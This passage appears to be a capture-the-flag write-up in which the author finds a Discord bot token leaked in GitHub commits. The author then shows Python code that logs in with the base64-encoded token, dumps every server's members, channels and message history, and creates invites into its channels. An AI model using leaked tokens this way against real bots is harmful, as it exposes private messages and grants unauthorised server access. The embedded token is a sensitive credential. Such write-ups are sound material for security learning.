 ![](https://cdn.discordapp.com/attachments/906373269270188082/906434596814610432/unknown.png)

There is here some suspicious directory names, so if the path names is the only thing that we have, let's search this on Google...

![](https://i.imgur.com/cg0U5Fo.png)

![](https://i.imgur.com/BQwEfZl.png)


Yeah, we got that!
So, after some checks on the Github Repositories, we found this Discord Bot Token on commits:

![](https://i.imgur.com/YPPBYaT.png)

At first moment, We can up this bot to read all messages, members and channels of all servers that this bot is related.

```py
import discord, base64
from discord.ext import commands

bot = commands.Bot(command_prefix='$', case_insensitive=True)

@bot.event
async def on_ready():
    print('We have logged in as {0.user}'.format(bot))
    for guild in bot.guilds:
        print("Servers:")
        print(guild.name)
        for member in guild.members:
            print("Members:")
            print(member)
        for channel in guild.text_channels:
            print("Channels:")
            print(channel.name)
            for current_message in await channel.history(limit=500).flatten():
                print(current_message.author)
                print(current_message.content)

token = base64.b64decode(b'T0RReU1qUTNPRFl6TWpVek56STVNamt3LllKeWljZy43S0c5MzRWRWxtM1J0Wm45YlVhQ0xTdnJPeUk=').decode()
bot.run(token)
```

![](https://i.imgur.com/K1lgTBi.png)

This worked!, a lot of messages like this SUP3R H4CK3R W3BCH4T above, bot nothing of flag :(

So... let's create a invite for this Discord server...

```py
import discord, base64
from discord.ext import commands
.
.
.
        for channel in guild.text_channels:
            link = await channel.create_invite(max_age = 300)
            print(link)
.
.
.
```
